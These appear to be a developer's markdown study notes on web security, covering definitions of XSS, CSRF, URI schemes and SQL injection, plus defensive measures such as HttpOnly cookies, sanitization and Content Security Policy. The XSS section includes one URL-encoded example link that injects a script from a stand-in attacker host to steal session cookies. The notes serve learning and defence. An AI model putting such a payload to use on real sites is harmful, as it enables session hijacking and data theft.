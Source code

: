 # Defs
## **XSS** - Cross-site Scripting
- are a case of 'code injection'

### **DOM-based** cross-site-scripting
- Malicious code interacts with the client only (no server contact)

## **URI scheme**
A __URI scheme__ is the syntax of a URI

Example - Facetime
```
scheme:  facetime://<address>|<MSISDN>|<mobile number>
example: facetime://+19995551234
```

Example - Chrome Extension
```
scheme: chrome-extension://<extensionID>/<pageName>.html
```

- Escape
  - ref: https://en.wikipedia.org/wiki/Escape_character

## UXSS - Universal XSS
- Attacks on the browser itself

## CSRF/XSRF - Cross-site request forgery

## Covert Redirection
- https://en.wikipedia.org/wiki/Phishing#Covert_redirect

## SQL injection
- https://en.wikipedia.org/wiki/SQL_injection

# Security Steps
- clean store on logout
  - one suggestion is to set state to 'undefined' in some global reducer

- refresh tokens? Idea is to not let any one token live for too long

- should we set HttpOnly in the cookie?

- Keep cookie's expiration low to help protect against XSS (so what is low?)

- if accepting HTML input need to use a [HTML sanitization egine](https://en.wikipedia.org/wiki/HTML_sanitization)

# React Specific
- React has automatic escaping built-in but it is limited says [Avoiding XSS in React is Still Hard](https://medium.com/javascript-security/avoiding-xss-in-react-is-still-hard-d2b5c7ad9412)

# Cookies
- Cookies are easily stolen :(
## Corrective Steps
- Tie session cookies to the IP address of the user who originally logged in
- HttpOnly flag (not great but worth setting)




# Resources
[10 Things You Should Know about Tokens](https://auth0.com/blog/ten-things-you-should-know-about-tokens-and-cookies//)

# Reference
- [Cross-site scripting, Wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting)
- [HTML sanitization, Wikipedia](https://en.wikipedia.org/wiki/HTML_sanitization)


# XSS
- Send email with link to something attractive 'puppies'
- Link is valid search on some website like
```
// Noe the script tag

http://bobssite.org?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E
```
- Unwise email receipent click on link which runs the script and takes cookie
- Attacker uses cookie to login as user and steal data
## Preventative Measures
- sanitize
- redirect invalid requests
- deny simultaneous logins and/or 2 logins from different IP addresses
- don't display full credit card info
- require password re-entry before access to account/sensitive info
- [Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)
- Automated tools that remove XSS malicious code (so what are they called?)


# Other good stuff to know
- [Mobile IP](https://en.wikipedia.org/wiki/Mobile_IP)
- [Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)
- SameSite cookie parameter (?more info)

